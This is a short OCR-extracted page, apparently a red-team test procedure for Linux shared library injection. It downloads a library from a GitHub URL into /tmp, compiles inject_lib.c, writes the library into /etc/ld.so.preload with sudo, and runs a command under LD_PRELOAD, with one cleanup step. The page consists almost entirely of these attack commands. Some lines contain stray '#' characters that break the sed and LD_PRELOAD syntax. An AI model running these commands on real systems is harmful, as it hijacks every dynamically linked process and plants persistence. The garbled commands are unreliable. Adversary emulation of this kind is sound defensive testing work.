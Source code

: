  
 wget -P /tmp/ https://github.com/jage1nf/testlib/blob/main/inject_lib.so  
 gcc -shared -fPIC ./inject_lib.c -o inject_lib.so -ldl  
  
1. Shared Library Injection via /etc/ld.so.preload  
Attack Commands:  
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'  
Cleanup Commands:  
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
  
2. Shared Library Injection via LD_PRELOAD  
Attack Commands:  
LD_PRELOAD=#/tmp/inject_lib.so ls  
